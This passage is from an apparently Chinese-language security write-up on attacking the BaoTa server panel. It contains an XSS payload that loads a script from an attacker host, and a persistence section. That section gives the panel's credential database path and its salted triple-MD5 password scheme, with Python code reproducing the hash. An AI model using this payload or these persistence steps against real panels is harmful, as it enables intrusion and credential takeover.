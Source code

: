   
9.插入xss   
  
```
</textarea><script src=http://192.168.1.3:8080/1.js></script>
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/drOLIiakV5uoHVAvP6EMQlSqPeHUxUZoncUQt86J9aBLRhOvl4nA24rNib6G7MsZhPDmLnFdGFT0T7foIICufoyQ/640?wx_fmt=png "")  
10.  
查看日志，成功触发csrf（不知道为啥这个图片这么模糊）  
  
![](https://mmbiz.qpic.cn/mmbiz_png/drOLIiakV5uoHVAvP6EMQlSqPeHUxUZoniaYoZK6nBU1cGrVJiar9nNrZTHMvJaWyianVhzLkALrzCmHoGlc2IGtcA/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/drOLIiakV5uoHVAvP6EMQlSqPeHUxUZon7TZibL9GaSas3BYeAic4BGJWcbELia3Fo6FxQa60TmFTVRGxkOv5XbsZw/640?wx_fmt=png "")  
  
ok，说完了宝塔常见的洞，现在来讲讲维权  
  
  
贰-宝塔维权手法  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibuIZhT4Hqicn1AwTxKl6lQJhiauZibiaALNlYK3Inw1PQibXBUwpZ8ecvk40UmicHDxOuJwe4v5IicjiamyTQ1HvYcm9WQ/640?wx_fmt=png "")  
  
  
  
**1.前置知识**  
  
宝塔面板登录的信息存储在  
/www/server/panel/data/default.db中，很明显是个sqlite3文件  
  
![](https://mmbiz.qpic.cn/mmbiz_png/drOLIiakV5uoHVAvP6EMQlSqPeHUxUZonpEFIuYOibkoB0XY0UBCaaXPJcia4ThFjIibuAOMUQOG7sAP0R2VI8l8LQ/640?wx_fmt=png "")  
  
（顺便提一句，上面其他.pl文件的作用  
  
开放端口对应port.pl  
  
后台地址对应admin_path.pl  
  
宝塔默认登录密码:对应default.pl）  
  
其中账号密码存在users表中，对于password的加密方式为  
  
**md5(md5(md5(password)+'_bt.cn')+salt)**  
  
其中password为明文密码，salt在users中的salt字段  
  
现在用DB Browser for SQLite看一下  
  
![](https://mmbiz.qpic.cn/mmbiz_png/drOLIiakV5uoHVAvP6EMQlSqPeHUxUZonicf0gAgbAtXZJibd4SS5jz1cQF23TIFicf8jVDd3m3gWhU7vNWrdMiadpw/640?wx_fmt=png "")  
  
很明显salt为3D3cJrSqoSec，那我们尝试加密一下看看最终的值是否正确  
  
```
# MD5 hashing with additional strings as per the provided pattern
original_text = "milu1234"
additional_string1 = "_bt.cn"
additional_string2 = "3D3cJrSqoSec"

# First MD5 hash
first_md5 = hashlib.md5(original_text.encode()).hexdigest()

# Second MD5 hash with additional string 1
second_md5 = hashlib.md5((first_md5 + additional_string1).encode()).hexdigest()

# Final MD5 hash with additional string 2
final_md5 = hashlib.md5((second_md5 + additional_string2).encode()).hexdigest()
final_md5
```  
  